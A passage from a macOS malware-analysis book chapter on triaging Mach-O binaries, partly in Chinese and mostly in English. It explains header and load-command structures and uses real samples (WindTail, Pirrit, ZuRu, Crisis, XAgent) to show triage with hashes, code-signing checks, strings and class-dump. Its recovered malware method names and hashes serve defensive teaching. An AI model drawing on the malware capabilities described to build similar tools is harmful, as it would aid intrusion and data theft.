# 第五章：二进制筛查


在上一章中，我介绍了静态分析工具和技术，并将它们应用于各种非二进制文件格式，如分发介质和脚本。在本章中，我们将继续讨论静态分析，重点关注苹果的本地可执行文件格式——久负盛名的 Mach 对象文件格式（Mach-O）。由于大多数 Mac 恶意软件都被编译成 Mach-O 格式，因此所有 Mac 恶意软件分析师都应了解这些二进制文件的结构，因为至少这将帮助你区分良性和恶意文件。

## Mach-O 文件格式

与所有二进制文件格式一样，分析和理解 Mach-O 文件需要特定的分析工具，通常最终需要使用二进制反汇编器。可执行二进制文件格式相当复杂，而 Mach-O 也不例外。好消息是，你只需对该格式有基本了解，以及一些相关概念，就足够用于恶意软件分析。如果你有兴趣深入了解该格式，可以参考苹果的详细开发者文档和 SDK 文件，或者阅读“解析 Mach-O 文件”的文章。^(1)

从基本层面来看，Mach-O 文件由三个连续的部分组成：头部、加载命令和数据（图 5-1）。



图 5-1：Mach-O 二进制文件布局

头部将文件标识为 Mach-O 格式，并包含有关二进制文件的其他元数据，而加载命令包含动态加载器用于将二进制文件加载到内存中的信息。紧随其后的是二进制文件的实际指令、变量和其他数据。我们将在以下章节中详细介绍这些部分。

### 头部

Mach-O 文件以 Mach-O *头部* 开头，该头部将文件标识为 Mach-O 格式，并指定目标 CPU 架构和 Mach-O 二进制文件类型。头部还包含加载命令的数量和大小。

Mach-O 头部是 `mach_header_64` 类型的结构体，或者对于 32 位二进制文件，使用 `mach_header`，它在苹果的开发者 SDK 文件中定义，*mach-o/loader.h*（Listing 5-1）。

```
struct mach_header_64 {
        uint32_t        magic;          /* mach magic number identifier */
        cpu_type_t      cputype;        /* cpu specifier */
        cpu_subtype_t   cpusubtype;     /* machine specifier */
        uint32_t        filetype;       /* type of file */
        uint32_t        ncmds;          /* number of load commands */
        uint32_t        sizeofcmds;     /* the size of all the load commands */
        uint32_t        flags;          /* flags */
        uint32_t        reserved;       /* reserved */
};
```

Listing 5-1：`mach_header_64` 结构体

虽然苹果的注释简洁地描述了 `mach_header_64` 结构体中的每个成员，但让我们更仔细地看看与恶意软件分析相关的部分。首先是 `magic` 成员，它包含一个 32 位值，用于标识文件为 Mach-O 二进制文件。对于 64 位二进制文件，该值将设置为 `MH_MAGIC_64` 常量（在 *loader.h* 中定义），其十六进制值为 `0xfeedfacf`。对于旧的 32 位二进制文件，苹果的 SDK 文件指定了其他值作为这个魔术常量，但在分析现代 Mac 恶意软件时，你不太可能遇到这些值。

````The `cputype` member of the structure specifies the CPU architecture that is compatible with Mach-O binary. You’ll likely encounter constants such as `I386`, `X86_64`, or `ARM64`. The `filetype` member describes the type of Mach-O binary. It can have several possible values, including `MH_EXECUTE` (0x2), which identifies a standard Mach-O executable; `MH_DYLIB` (0x6), which identifies a Mach-O dynamic linked library; and`MH_BUNDLE` (0x8), which identifies a Mach-O bundle. As the vast majority of malicious Mach-O binaries are standalone executables, their type will be the former: `MH_EXECUTE`. Next in the `mach_header_64` structure are members that describe both the number and size of load command, which we’ll describe shortly.    The `otool` utility can be used to parse Mach-O binaries. For example, to dump the header of a Mach-O binary, execute it with the `-h` flag. You can also specify the `-v` flag to instruct `otool` to display constants rather than their raw numerical values (Listing 5-2).    ``` % **otool -hv Final_Presentation.app/Contents/MacOS/usrnode**   Mach header    magic         cputype     cpusubtype      filetype     ncmds     sizeofcmds MH_MAGIC_64       X86_64         ALL          EXECUTE       23        3928 ```    Listing 5-2: Viewing a Mach-O header with `otool` (WindTail)    As you can see, the WindTail malware is a standard Mach-O binary, compatible with 64-bit Intel CPUs. If you prefer a GUI interface, MachOView is a user-friendly utility capable of parsing Mach-O files, including WindTail (Figure 5-2).^(2)      Figure 5-2: Viewing a Mach-O header with MachOView (WindTail)      Note that a Mach-O binary contains code and data for one architecture only. To create a single binary that can execute on systems with different architectures (like Intel 64-bit and Apple Silicon arm64), developers can wrap multiple Mach-O binaries in a universal, or *fat*, binary. For example, Pirrit, the first malware known to natively run on Apple Silicon, is compiled as a universal binary. As shown in Listing 5-3, it was distributed as an application (named GoSearch22), natively supporting both Intel and ARM CPUs.    ``` % **file GoSearch22.app/Contents/MacOS/GoSearch22** GoSearch22: Mach-O universal binary with 2 architectures:   [x86_64:Mach-O 64-bit executable x86_64] [arm64:Mach-O 64-bit executable arm64]  GoSearch22 (for architecture x86_64): Mach-O 64-bit executable x86_64 GoSearch22 (for architecture arm64):  Mach-O 64-bit executable arm64 ```    Listing 5-3: A universal binary (Pirrit)    Universal binaries start with a header (`fat_header`), a variable number of `fat_arch` structures that describe the supported architectures, and then the architecture-specific Mach-O binaries concatenated together. You can dump the `fat_header` by using the `otool` utility with the `-f` flag. In Listing 5-4 you can see that Pirrit’s fat header starts with the `FAT_MAGIC` constant (the hex value `0xcafebabe`). Following this are the two `fat_arch` structures for the architectures it natively supports, Intel x86_64 and ARM arm64\. The `offset` member of the structure tells the loader where to find the architecture-specific Mach-O binary.    ``` % **otool -fv GoSearch22.app/Contents/MacOS/GoSearch22**  Fat headers fat_magic FAT_MAGIC nfat_arch 2 architecture x86_64     cputype CPU_TYPE_X86_64     cpusubtype CPU_SUBTYPE_X86_64_ALL     offset 4096     size 414368     ... architecture arm64     cputype CPU_TYPE_ARM64     cpusubtype CPU_SUBTYPE_ARM64_ALL     offset 425984     size 521632     ... ```    Listing 5-4: Viewing a fat header with `otool` `-f` (Pirrit)    When a universal binary is run, the operating system automatically selects the architecture compatible with the host. For example, when Pirrit is run on a 64-bit Intel system, the x86_64 Mach-O version of the binary (which you’ll recall is embedded directly within the universal binary) is run. The embedded architecture-specific binaries should be functionally identical, so as a malware analyst, you may choose whichever architecture you’re more comfortable with analyzing, or whichever Mach-O binary will run on your analysis system. To extract an architecture-specific Mach-O binary from a universal binary, use macOS’s `lipo` tool. (Yes, clearly Apple engineers have some humor.) Run it with the `-thin` flag and the architecture you’d like to extract. For example, in Listing 5-5 we extract the Intel version of the Pirrit variant from its universal binary. And for good measure, we also confirm this architecture-specific extraction with the `file` utility.    ``` % **lipo GoSearch22.app/Contents/MacOS/GOSearch22 -thin x86_64 -output GoSearch22_INTEL**  % **file GoSearch22_INTEL** GoSearch22_INTEL:  Mach-O 64-bit executable x86_64 ```    Listing 5-5: Extracting a Mach-O from a universal binary with `lipo` (Pirrit)    ### The Load Commands    Directly following the Mach-O header are the binary’s *load commands*, which tell the dynamic loader (dyld) how to load and link the binary in memory. Among other information, the load commands can specify required dynamic libraries, the binary’s in-memory layout, and the initial execution state of the program’s main thread. You can view a Mach-O binary’s load commands with `otool` using the `-l` flag (Listing 5-6).    ``` % **otool -lv Final_Presentation.app/Contents/MacOS/usrnode**  ... Load command 1       cmd LC_SEGMENT_64   cmdsize 952   segname __TEXT    vmaddr 0x0000000100000000    vmsize 0x0000000000013000   fileoff 0  filesize 77824   maxprot rwx   initprot r-x    nsects 11     flags (none) ... ```    Listing 5-6: Viewing load commands with `otool` (WindTail)    Listing 5-6 shows a load command describing the `__TEXT` segment, which contains executable binary instructions.    Load commands all begin with a `load_command`structure, defined in *mach-o/loader.h*. The `cmd` member describes the type of load command, while you’ll find the size of the load command in `cmdsize` (Listing 5-7).    ``` struct load_command {         uint32_t cmd;           /* type of load command */         uint32_t cmdsize;       /* total size of command in bytes */ }; ```    Listing 5-7: The `load_command` structure (Pirrit)    Immediately after this `load_command` structure is the corresponding load command’s data, which is specific to the type of load command (Figure 5-3).      Figure 5-3: The layout of a load command      As we’re covering the Mach-O file format for the purpose of malware analysis, we won’t cover all supported load commands. However, several are quite pertinent, and we’ll review those here.    #### LC_SEGMENT_64    One common type of load command is `LC_SEGMENT_64` **(**or `LC_SEGMENT` for 32-bit binaries), which describes a *segment*.For a given range of bytes in a Mach-O binary, a segment provides required information for the loader, such as the memory protections those bytes should have when mapped into virtual memory. `LC_SEGMENT_64` load commands contain all the relevant information for the dynamic loader to map the segment into memory and set its memory permissions. You’ll likely encounter, amongst others, the following three segments while analyzing Mach-O binaries:    *   `__TEXT`: Contains executable code and data that is read-only *   `__DATA`: Contains data that is writable *   `__LINKEDIT`: Contains information for the dynamic loader, for both linking and binding symbols    If the binary was written in Objective-C, it may have an `__OBJC` segment that contains information used by the Objective-C runtime, though this information might also be found in the `__DATA` segment within various `__objc_*` sections. Segments can contain multiple sections, each containing code or data of the same type.    Once a binary is loaded into memory (by the dynamic loader), execution begins at the binary’s entry point. The entry point is found in the `LC_MAIN` load command, discussed next.    #### LC_MAIN    The `LC_MAIN` load command is a structure of type `entry_point_command` (Listing 5-8):    ``` struct entry_point_command {     uint32_t  cmd;      /* LC_MAIN only used in MH_EXECUTE filetypes */     uint32_t  cmdsize;  /* 24 */     uint64_t  entryoff; /* file (__TEXT) offset of main() */  uint64_t  stacksize; /* if not zero, initial stack size */ }; ```    Listing 5-8: The `entry_point_command` structure    For the purposes of malware analysis, the most important member in the `entry_point_command` structure is `entryoff`, which contains the offset of the binary’s entry point. At load time, the dynamic loader simply adds this value to the in-memory base of the binary, and then jumps to this instruction to begin execution of the binary’s code.^(3) Often, when performing a detailed analysis of a malicious binary, analysis will begin at this location.    The `LC_MAIN` load command replaces the deprecated `LC_UNIXTHREAD` load command, which you might still come across if you’re analyzing older Mach-O binaries. The `LC_UNIXTHREAD` load command contains the entire context, or register values, of the initial thread. In this context, the program counter register contains the address of the binary’s initial entry point.    Lastly, a Mach-O binary can contain one or more constructors that will be executed *before* the address specified in `LC_MAIN`. The offsets of any constructors are held in the `__mod_init_func` section of the `__DATA_CONST` segment. More on this topic shortly, but be aware when analyzing Mac malware that execution may begin within such a constructor, *prior to* the binary’s main entry point (`LC_MAIN`).    #### LC_LOAD_DYLIB    The `LC_LOAD_DYLIB` load command describes a dynamic library dependency, and it instructs the dynamic loader to load and link a certain library. You’ll find an `LC_LOAD_DYLIB`load command for each library the Mach-O binary requires.    This load command is a structure of type `dylib_command`, which itself contains a `dylib` structure that describes the dynamic library (Listing 5-9).    ``` struct dylib_command {     uint32_t cmd;                       /* LC_LOAD_{,WEAK_}DYLIB */     uint32_t cmdsize;                   /* includes pathname string */     struct dylib dylib;                 /* the library identification */  };  struct dylib {     union lc_str name;                  /* library's path name */     uint32_t timestamp;                 /* library's build time stamp */     uint32_t current_version;           /* library's current version number */     uint32_t compatibility_version;     /* library's compatibility vers number */ }; ```    Listing 5-9: The `dylib_command` and `dylib` structures    You can parse a Mach-O binary’s `LC_LOAD_DYLIB` load command in order to view the binary’s dependencies. To do so, use the `otool` utility with the `-L` flag or MachOView.    From a malware analysis point of view, a binary’s `LC_LOAD_DYLIB` load commands can shed insight into the capabilities of the malware. For example, a binary that contains an `LC_LOAD_DYLIB` load command that references the `DiskArbitration` library may be interested in low-level access to disks, perhaps to monitor USB drives and exfiltrate files from them. A dependency on the `AVFoundation` library may indicate that the malware will capture audio and video from infected systems.    Note that you should closely examine a binary’s dependencies, too, as one of these dependent libraries could be malicious. For example, in late 2021, malware known as ZuRu was discovered, spreading via legitimate application binaries that had been surreptitiously trojanized by the addition of a new dependency. In the following `otool` output, the final dependency, *libcrypto.2.dylib* is actually the ZuRu malware (Listing 5-10):    ``` % **otool -L iTerm.app/Contents/MacOS/iTerm2** /usr/lib/libaprutil-1.0.dylib  /usr/lib/libicucore.A.dylib  /usr/lib/libc++.1.dylib  ... /usr/lib/libz.1.dylib  @executable_path/../Frameworks/libcrypto.2.dylib  ```    Listing 5-10: Dependencies of a trojanized iTerm application (ZuRu)    The malware author added this dynamic library to what is otherwise a legitimate version of the iTerm application. The now trojanized application had been re-signed, arousing suspicions; later, comparing it to a pristine version of iTerm revealed the additional, malicious dependency. If you’re interested in learning more about this attack, see my write-up “Made in China: OSX.ZuRu.”^(4)    ### The Data Segment    Following the load commands is the rest of the Mach-O binary, which largely consists of the actual binary code. This data is organized into the segments described by the `LC_SEGMENT_64`load commands. These segments can contain multiple sections, each of which contains code or data of the same type. For example, the aforementioned `__TEXT` segment contains executable code and data that is read-only. Common sections within this segment may include    *   `__text`: Compiled binary code *   `__const`: Constant data *   `__cstring`: String constants    On the other hand, the `__DATA` segment contains data that is writeable. A few of the more common sections within this segment include    *   `__data`: Global variables (those that have been initialized) *   `__bss`: Static variables (those that have not been initialized) *   `__objc_*` (`__objc_classlist`, `__objc_protolis`): Information used by the Objective-C runtime    Now that you have an elementary understanding of the Mach-O file format, let’s focus our attention on tools and techniques that aim to answer the question forever faced by malware analysts: Is a given Mach-O binary malicious?    ## Classifying Mach-O Files    Generally speaking, the first goal of malware analysis is to classify a sample as either benign, malicious but known, or malicious and previously unknown. If a sample turns out to be benign, then hooray: you’re done! In the context of malware analysis, there is generally no point to continue analyzing a legitimate and benign piece of software. If a sample is malicious but known, you’re likely done as well, unless you’re analyzing the sample for educational purposes, because other researchers who have studied the sample will often have published analysis reports. However, if you determine the sample is malicious and appears to either be a new variant or an entirely new specimen, the fun begins! Time for a deeper analysis.    The ability to classify samples efficiently is key to your success. I speak from experience when I say that spending several days analyzing a sample only to find out it is a well-known piece of malware can be frustrating. Due to their readability, it is often quite easy to classify scripts and other nonbinary file formats as either benign or malicious. On the other hand, classifying and analyzing binary files, such as Mach-Os, often requires the use of specific analysis tools. A fundamental understanding of the binary’s file format helps as well.    To effectively classify a Mach-O binary as malicious or benign, you can start by extracting and analyzing various file attributes, such as hashes, code-signing information, and embedded strings. If you can’t determine if a sample is benign or malicious by using these elementary tools and techniques, you may require more comprehensive tools, such as a disassembler, which we’ll cover in Chapter 6.    ### Hashes    One of the simplest ways to determine if a Mach-O binary is known to be benign or malicious is to compute and look up its hash online. Public repositories of malware most commonly use the hashing algorithm MD5 or the SHA family of hashing algorithms. As macOS ships with built-in utilities for computing such hashes, it’s trivial to determine the hashes of any sample. In Listing 5-11, we use these tools (`md5` and `shasum`), to generate both the MD5 and SHA-1 hash of a Mach-O binary called *usrnode* found within a suspicious application bundle:    ``` % **md5 Final_Presentation.app/Contents/MacOS/usrnode**  MD5 (usrnode) = c68a856ec8f4529147ce9fd3a77d7865  % **shasum -a 1 Final_Presentation.app/Contents/MacOS/usrnode** 758f10bd7c69bd2c0b38fd7d523a816db4addd90  usrnode ```    Listing 5-11: Computing hashes with `md5` and `shasum` (WindTail)    If you’re more comfortable using a GUI utility, the WYS tool introduced in Chapter 4 can compute MD5 and various SHA-* hashes of files.    Once you’ve determined the binary’s hash, look it up online. For example, searching for *usrnode*’s MD5 hash readily confirms the binary is indeed the WindTail malware (Figure 5-4).      Figure 5-4: Leveraging Google to identify a malicious file from its hash (WindTail)      Searching for this same hash on VirusTotal ([`www.virustotal.com/`](https://www.virustotal.com/)), a free online antivirus scanning portal with a large collection of scan results, also confirms this identification (Figure 5-5).      Figure 5-5: Leveraging VirusTotal to identify a malicious file from its hash (WindTail)      If the goal was to simply classify the binary as benign or malicious, we’ve just accomplished this via the binary’s hash. Moreover, by its hash alone, we were able to confirm the identity of the malware as WindTail. We should note that hashes are quite brittle, as any change to a file will result in a completely different hash. As such, if a malware author modifies even a single bit in the binary, you may find no online hash matches. Thus, if you don’t find a hash match, don’t use this fact to classify the file as non-malicious! Instead, turn to other analysis tools and techniques.    I’ve noted that hashes can also be helpful in classifying a binary as benign. The idea is roughly the same: compute the hash and search for it online (or in various “goodware” collections as such as NIST’s National Software Reference Library^(5)). If it’s found and identified by a trusted source as a benign binary, more than likely it is. However, there’s a better way to ascertain if a binary should be trusted: examining its code-signing information.    ### Code-Signing Information    Due to macOS security mechanisms such as Gatekeeper and notarization requirements, most software on macOS is now signed. This allows users (and malware analysts) to confirm that the software has come from a known source and has not been modified. In the context of malware analysis, relevant *code-signing information* includes the status of the signing certificate, code-signing authorities, and the team identifier. A signing certificate in poor standing (for example, one that has been revoked) is a likely indicator of misuse. *Code-signing authorities* describe the chain of signers, which can provide insight into the origin and trustworthiness of the signed item. Finally, the optional *team identifier* specifies the team or company that created the signed item. In the case where the team identifier specifies a known and reputable company, this expresses trustworthiness of a signed item. On the other hand, if a signed item proves to be malicious, a team identifier can be used to tie it to, or even uncover, unrelated malware created by the same attackers.    By extracting the code-signing information of signed Mach-O binaries, you may be able to quickly verify that an unknown binary is benign. For example, if a binary is signed by Apple proper (“Apple Code Signing Certification Authority”), you can rest assured that the binary is not malicious. On the other hand, if a binary is unsigned or claims to be from a well-established company but isn’t signed by that company, you have cause for further analysis. As an example of the latter, the CreativeUpdate malware that propagated via a trojanized Firefox application was signed not by Mozilla but instead with a personal Apple developer identifier fraudulently obtained by the malware authors.    Like with hashes, you can research code-signing information online and in some cases match unknown files to known malware. For example, searching for the aforementioned *usrnode* binary’s code-signing team identifier quickly brings up results associated with the WindShift malware family that includes WindTail (Figure 5-6).      Figure 5-6: Leveraging Google to identify a malicious file via its code-signing team identifier (WindTail)      Finally, if a Mach-O binary is signed but Apple has revoked its certificate, you should treat this as a rather massive red flag, and it almost certainly indicates that the binary is malicious.    You can extract code-signing information from a Mach-O binary with Apple’s `codesign` utility using the `-dvv` flags (Listing 5-12).    ``` % **codesign -dvv Final_Presentation.app/Contents/MacOS/usrnode** Executable=Final_Presentation.app/Contents/MacOS/usrnode Identifier=com.alis.tre Format=app bundle with Mach-O thin (x86_64)  1 Authority=(unavailable)    TeamIdentifier=95RKE2AA8F    ... ```    Listing 5-12: Viewing code-signing information for a self-signed file with `codesign` (WindTail)    As you can see, this WindTail sample is signed but has no signing authorities 1. This indicates that the sample is self-signed, and self-signed binaries are rarely legitimate. By contrast, take a look at the following legitimate Mach-O binary for Apple’s built-in Calculator application. The `codesign` output shows the full signing authority chain (Listing 5-13).    ``` % **codesign -dvv Calculator.app**  Executable=Calculator.app/Contents/MacOS/Calculator 1 Identifier=com.apple.calculator  Format=app bundle with Mach-O universal (x86_64 arm64e) 2 Authority=Software Signing  Authority=Apple Code Signing Certification Authority Authority=Apple Root CA ... ```    Listing 5-13: Viewing code-signing information for an Apple application with `codesign`    Legitimate Apple platform binaries will contain an identifier that is prefixed with `com.apple` 1 and be signed with a code-signing authority chain, as shown in Listing 5-13 2.    Signed third-party applications should have a binary signed with an Apple Developer ID. In Listing 5-14, note the Developer ID for the Microsoft Word application, which confirms it indeed was created and signed by Microsoft.    ``` % **codesign -dvv Microsoft/Applications/Microsoft Word.app** Executable=Microsoft Word.app/Contents/MacOS/Microsoft Word Identifier=com.microsoft.Word ... Authority=Developer ID Application: Microsoft Corporation (UBF8T346G9) Authority=Developer ID Certification Authority Authority=Apple Root CA  TeamIdentifier=UBF8T346G9 ... ```    Listing 5-14: Viewing code-signing information for a third-party application with `codesign`    However, as the majority of Mac malware is signed with an Apple developer identifier, don’t assume a binary is benign if it is signed in this manner. Instead, examine the code-signing authority, and if provided, the team identifier. In Listing 5-14, the application is validly signed with an Apple developer identifier and contains a team identifier, both of which belong to Microsoft, so you can be confident that the application was created by Microsoft, and thus is not malicious.    As discussed in Chapter 1, Apple recently introduced notarization requirements on software distributed by third-party developers via the internet. As Apple will only notarize items that it has scanned and decided are not malicious, checking if an item is notarized (or not!) can help you decide if an item is benign or malicious. Moreover, the vast majority of legitimate third-party software should be notarized, whereas malware (in theory) will not be.    To check if an item is notarized, use the `codesign` utility with the `--test-requirement="=notarized"` and `--verify` command line arguments, or the `spctl` utility.^(6) In Listing 5-15, we use the latter to confirm that the Microsoft Word application is indeed notarized.    ``` % **spctl -a -v /Applications/Microsoft Word.app**  /Applications/Microsoft Word.app: accepted source=Notarized Developer ID ```    Listing 5-15: Viewing the notarization status of a file via `spctl`    A word of caution: in rare cases, Apple has inadvertently notarized malicious code!^(7) Don’t solely rely on the notarization status of an item when classifying it as either malicious or benign.    Finally, `codesign` will simply display `code object is not signed at all` for unsigned Mach-O binaries. As most legitimate software is now signed and notarized, unsigned code should be treated as somewhat suspect until a comprehensive analysis has confirmed otherwise.    I mentioned earlier that if Apple has revoked the code-signing certificate used to sign a Mach-O, this likely means that Apple deemed the binary to be malicious. Using the `codesign` utility with the `-v` command line flag, you can check the status of a binary’s code-signing certificate. If a certificate has been revoked, the utility will display `CSSMERR_TP_CERT_REVOKED`. As an example, let’s examine the code-signing information for the WindTail binary, noting that the code-signing certificate has now been revoked (Listing 5-16):    ``` % **codesign -v Final_Presentation.app/Contents/MacOS/usrnode**  Final_Presentation.app/Contents/MacOS/usrnode: CSSMERR_TP_CERT_REVOKED ```    Listing 5-16: Viewing the certificate status of a file with `codesign` (WindTail)    You can also use the WYS tool to extract code-signing information. Code-signing is an important but involved topic. To learn more, see “Code Signing—Hashed Out” and “macOS Code Signing In Depth.”^(8)    ### Strings    Though the Mach-O file format isn’t directly readable by mere mortals, you might still find nonbinary data within it, such as strings or sequences of printable characters. Using the aptly named `strings`utility, you can easily extract such embedded strings from a compiled Mach-O binary, whether they be method or function names, debug or error messages, or hardcoded paths and URLs. These strings can provide valuable insight into the capabilities of the binary being analyzed.    When extracting strings from a binary, always run `strings` with the `-` flag to instruct the utility to scan the entire file. Otherwise `strings` will scan only certain sections. Also, the `strings` utility can only scan for ASCII strings, so it might miss Unicode strings. For that reason, you might instead use a Unicode-aware utility, such as FLOSS.^(9)    By design, the `strings` utility is fairly simple; all it does is display sequences of printable characters. As such, it will output many random sequences of binary values that just happen to be printable, and you’ll have to sift through the results to find strings of interest. Listing 5-17 shows part of the output from `strings` when run on WindTail’s *usrnode* binary:    ``` % **strings - Final_Presentation.app/Contents/MacOS/usrnode** ...  1 GenrateDeviceName  m_ComputerName_UserName m_uploadURL  2 BouCfWujdfbAUfCos/iIOg==  Bk0WPpt0IFFT30CP6ci9jg== RYfzGQY52uA9SnTjDWCugw== XCrcQ4M8lnb1sJJo7zuLmQ== 3J1OfDEiMfxgQVZur/neGQ== Nxv5JOV6nsvg/lfNuk3rWw== Es1qIvgb4wmPAWwlagmNYQ==  3 /usr/bin/zip  /usr/bin/curl ```    Listing 5-17: Extracting embedded strings with `strings`  (WindTail)  In this output, we find function names and variables that, based on their names, appear to be related to survey logic 1. Following this are base64-encoded strings, likely obfuscated to hide some sensitive content 2. Finally, we find paths to various macOS utilities (used to compress and upload or download files) 3.    Solely based on strings embedded within the binary, it seems likely the malware is designed to survey and steal files from an infected system. In fact, if we search online for some of the more unique strings, such as the misspelled `GenrateDeviceName`, we find a detailed report on WindTail (created by the WindShift APT group) confirming its file exfiltration capabilities (Figure 5-7).      Figure 5-7: Leveraging Google to identify malware via embedded strings (WindTail)      Before wrapping up our discussion of the `strings` utility, it is important to note that malware authors can, of course, spoof or obfuscate embedded strings (such as variable and method names) in an attempt to thwart or mislead an initial triage. Thus, any conclusions solely based on embedded strings should be validated with other analysis methods or tools, such as via a disassembler.    ### Objective-C Class Information    The majority of Mach-O malware is written in Objective-C. Why is this a good thing for malware analysts? Simply put, programs written in Objective-C retain their class declarations when compiled into binaries. These class declarations include the name and type of the class, the class methods, and the class instance variables. This means we can extract the names the author used when writing the malware from the compiled binary. Similar to embedded printable strings, these provide valuable insight into many aspects of the malware, such as its capabilities. Moreover, we can extract this information efficiently, without having to understand any binary code!    Objective-C class information will show up in the output of the aforementioned `strings` command. However, the tools mentioned in this section are specifically designed to extract and reconstruct embedded Objective-C class information and provide a representation far closer to the original source code. One proven favorite is the `class-dump` utility created by Steve Nygard.^(10) Here, for example, we use `class-dump` to extract class information from HackingTeam’s persistent Mac backdoor, Crisis (Listing 5-18):    ``` % **class-dump RCSMac.app** ...  @interface __m_MCore : NSObject {     NSString *mBinaryName;   1 NSString *mSpoofedName; }  - (BOOL)getRootThroughSLI; - (BOOL)isCrisisHookApp:(id)arg1; - (BOOL)makeBackdoorResident; - (void)renameBackdoorAndRelaunch; @end ```    Listing 5-18: Reconstructing embedded class information with `class-dump` (Crisis)    Without having to understand the syntax of Objective-C class declarations, we can consider instance variables and method names alone to ascertain that this binary is likely malicious and gain insight into its logic. For example, based on the method names `getRootThroughSLI` and `makeBackdoorResident`, it is likely that the malware attempts to elevate its privileges to root and persist a backdoor component (perhaps with a spoofed name 1).    The output from `class-dump` can also provide valuable input for more involved analysis methods, such as disassembling or debugging the binary. For example, if we’re attempting to figure out how Crisis persists, it would seem prudent to begin our analysis with the method named `makeBackdoorResident`.    Another malware specimen that readily spills its secrets to `class-dump` is the Russian XAgent (Listing 5-19):    ``` % **class-dump XAgent**  @interface MainHandler : NSObject ... - (void)sendKeyLog:(id)arg1; - (void)takeScreenShot; - (void)execFile; - (void)remoteShell; - (void)getProcessList; @end ```    Listing 5-19: Reconstructing embedded class information with `class-dump` (XAgent)    Based on method names alone, we can extrapolate the malware’s likely features and capabilities. Of course, you should confirm this through other analysis tools or methods.    ## “Nonbinary” Binaries    In the next chapter we’ll dive into “hardcore” binary analysis, such as using a disassembler to read assembly code. However, there are times when you can avoid this rather time-consuming and complex approach altogether. In some instances, the binary under analysis is actually a container for what is normally nonbinary code, like a Python script.    The main reason authors package nonbinary malware into native macOS binaries or applications is to facilitate distribution and user-assisted infection. Imagine that a malware author has written a cross-platform backdoor in Python. To target macOS users, it makes a lot of sense to wrap the Python code into an application natively supported by the operating system. As all Mac users are familiar with applications, they may be more easily tricked into running the malicious script with a single double-click. On the other hand, if the author distributed the malware as a raw Python script, the average user would be confused and probably unable to run the malware, even if they wanted to.    ### Identifying the Tool Used to Build the Binary    Some tools used to build binaries and applications from nonbinary components include:    *   **Appify:** Packages shell scripts into macOS applications by wrapping them into a bare-bones application bundle and setting the script as the application’s main executable. An example of malware that appears to have been built with Appify is Shlayer.^(11) *   **Platypus:** Packages shell scripts into macOS applications by wrapping them in an application bundle and including an app binary that runs the script. Examples of malware built with Platypus include Eleanor and CreativeUpdate.^(12) *   **PyInstaller:** Packages Python scripts into executables. An example of malware built with PyInstaller is GravityRAT.^(13) *   **Electron:** Creates applications using web technologies, including JavaScript, HTML, and CSS. Examples of malware built with Electron include certain variants of GravityRAT and ElectroRAT.^(14)    Shortly we’ll look at malware samples that abused these legitimate packaging tools and frameworks and you’ll see how to extract their original nonbinary components. Once these components have been extracted, analysis often becomes rather straightforward, as the nonbinary code is human-readable.    First, though, you may be wondering how, given an arbitrary binary, you can determine if it was created with one of these tools, and if so, which one. After all, the extraction procedures are specific to the method used to build or package it up. Fortunately, once you know what to look for, determining this information is easy.    If an application was created via Appify, it will not contain an *Info.plist* file. Instead, you’ll find a script in the application’s *Contents/MacOS* directory whose name matches that of the application.    When scripts are packaged via Platypus, the script is placed directly into the application bundle, and you can find it in the application’s *Contents/Resources/* directory as a file named *script*. Thus, if you come across an application that contains *Contents/Resources/script*, it’s likely a “platypussed” application.    It’s fairly easy to identify binaries built with PyInstaller by examining embedded strings or function names. (The embedded string `Py_SetPythonHome` is a good indicator.) The next chapter covers disassembling Mach-O binaries, but it’s worth noting here that the disassembly of a binary’s `main` function can also provide a way to determine if it was built with PyInstaller. How? Simple! The main function calls into PyInstaller’s entry point, `pyi_main` (Listing 5-20).    ``` void main() {    pyi_main(rdi, rsi, rdx, rcx, r8, r9);    return; } ```    Listing 5-20: A binary invoking PyInstaller’s entry point    Applications that were built with Electron will be linked against a framework called `Electron Framework.framework`. Moreover, you can find the nonbinary components, which are generally JavaScript 